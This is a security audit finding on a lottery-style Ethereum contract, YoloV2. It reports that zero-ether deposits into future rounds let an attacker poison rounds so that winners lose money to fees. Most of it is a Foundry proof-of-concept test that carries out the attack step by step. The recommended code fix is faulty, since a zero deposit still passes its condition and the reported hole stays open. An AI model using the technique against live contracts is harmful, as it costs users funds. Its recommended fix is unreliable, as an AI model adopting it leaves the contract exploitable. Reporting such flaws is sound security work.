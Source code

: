 Interesting Tiger Walrus

high

# depositETHIntoMultipleRounds lets users deposit 0 ether leading to losses by participation

## Summary
Users are able to deposit zero ether into future rounds using the function [depositETHIntoMultipleRounds](https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L312
),  using this an adversary can poison rounds which will lead to loss of user funds.
## Vulnerability Detail
depositETHIntoMultipleRounds function lacks the necessary checks to make sure each deposit is not zero, it initially checks the deposit which is towards the current open round and later checks the total expected deposit, therefore for the next rounds a user can make deposits of zero ether. At this point an adversary can make `MAXIMUM_NUMBER_OF_DEPOSITS_PER_ROUND - 1` deposits into any number of rounds, only depositing funds into the current open round. Whenever a victim makes a deposit into these future rounds filled with zero deposits, they will be winning the round (drawing will trigger due to deposits reaching limit and number of participants being greater than one) but only to pay protocol fees and gas, ultimately losing funds.
## Impact
Malicious users can poison rounds which will make users lose funds by participating in the game, making this vulnerability high impact.
## PoC
Add this test to Yolo.depositETHIntoMultipleRounds.t.sol.
```solidity
function test_depositETHIntoMultipleRounds_DepositZeroEth() public {
        uint256[] memory amounts = new uint256[](4);
        amounts[0] = 0.01 ether;
        amounts[1] = 0 ether;
        amounts[2] = 0 ether;
        amounts[3] = 0 ether;

        vm.deal(user1, 10 ether);
        vm.prank(user1);

        //attacker deposits MAXIMUM_NUMBER_OF_DEPOSITS_PER_ROUND - 1 times into 4 rounds
        for (uint256 i = 1; i <= 99; i++) {
            yolo.depositETHIntoMultipleRounds{value: 0.01 ether}(amounts);
        }

        (
            ,,,,,,,,,
            IYoloV2.Deposit[] memory deposits
        ) = yolo.getRound(2);
        //attacker was able to deposit 0 eth
        assertEq(deposits[0].tokenAmount, 0);

        amounts = new uint256[](2);
        amounts[0] = 5 ether;
        amounts[1] = 5 ether;

        vm.deal(user2, 20 ether);
        vm.prank(user2);
        //victim deposits 5 ether to two rounds
        yolo.depositETHIntoMultipleRounds{value: 10 ether}(amounts);

        //first round goes through automatically as it reaches max deposit number
        (IYoloV2.RoundStatus status, , , , , , , , , ) = yolo.getRound(1);
        assertEq(uint8(status), uint8(IYoloV2.RoundStatus.Drawing));

        uint256[] memory randomWords = new uint256[](1);
        randomWords[0] = 2345782359082359082359082359239741234971239412349234892349234;

        vm.prank(VRF_COORDINATOR);
        VRFConsumerBaseV2(yolo).rawFulfillRandomWords(FULFILL_RANDOM_WORDS_REQUEST_ID, randomWords);
        address winner;
        (status, , , , , , winner, , , ) = yolo.getRound(1);
        assertEq(uint8(status), uint8(IYoloV2.RoundStatus.Drawn));
        assertEq(winner, user2);

        //similar to first round    
        vm.prank(VRF_COORDINATOR);
        VRFConsumerBaseV2(yolo).rawFulfillRandomWords(FULFILL_RANDOM_WORDS_REQUEST_ID_2, randomWords);
        (status, , , , , , winner, , , ) = yolo.getRound(2);
        assertEq(uint8(status), uint8(IYoloV2.RoundStatus.Drawn));
        assertEq(winner, user2);
        
        //victim claims prizes for round 2 which has been filled with deposits of zero
        uint256[] memory prizesIndices = new uint256[](100);
        for(uint256 i = 0; i < 100; i++){
            prizesIndices[i] = i;
        }
        IYoloV2.WithdrawalCalldata[] memory withdrawalCalldata = new IYoloV2.WithdrawalCalldata[](1);
        withdrawalCalldata[0].roundId = 2;
        withdrawalCalldata[0].depositIndices = prizesIndices;
        vm.prank(user2);
        yolo.claimPrizes(withdrawalCalldata, false);

        //victim is in loss of 0.15 ether
        assertEq(user2.balance, 14.85 ether);
    }
```
## Code Snippet
depositETHIntoMultipleRounds function:
https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L312-L362
## Tool used

Manual Review

## Recommendation
Add a zero check for each deposit [here](https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L338C1-L340C14).
```diff
-            if (depositAmount % roundValuePerEntry != 0) {
+            if (depositAmount % roundValuePerEntry != 0 && depositAmount != 0) {
                 revert InvalidValue();
             }
```